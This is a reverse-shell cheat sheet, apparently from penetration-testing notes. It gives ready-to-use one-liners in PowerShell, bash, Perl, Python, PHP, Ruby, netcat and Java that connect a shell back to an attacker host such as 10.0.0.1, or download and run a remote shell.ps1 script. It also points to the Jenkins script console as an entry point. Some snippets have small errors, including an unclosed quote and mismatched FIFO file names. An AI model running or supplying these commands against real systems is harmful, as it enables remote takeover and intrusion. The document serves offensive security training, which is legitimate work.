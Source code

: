 # Reverse shell

### Powershell

```c
// Edit and host nishang Invoke-PowershellTcp
Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1)

// using powershell.exe os bit architecture
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1)

```

### Bash/Shell

```bash
# bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# /bin/bash
/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# sh
sh -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Perl

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```bash
# This code assumes that the TCP connection uses file descriptor 3.  If doesn’t work, try 4, 5, 6…
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat / Netcat without -e

```bash
# sh
nc -e /bin/sh 10.0.0.1 1234

# bash
nc -e /bin/bash 10.0.0.1 1234

#Netcat without -e
rm /tmp/2;mkfifo /tmp/2;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/2

#Netcat without -e (FREEBSD ONLY!)
rm /tmp/2;mkfifo /tmp/2;cat /tmp/f|/bin/sh -i |nc 10.0.0.1 1234 >/tmp/2
```

### Java

```bash
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

### JENKINS Script Console

Jenkins &gt; Manage Jenkins &gt; script console

{% embed url="https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76" %}

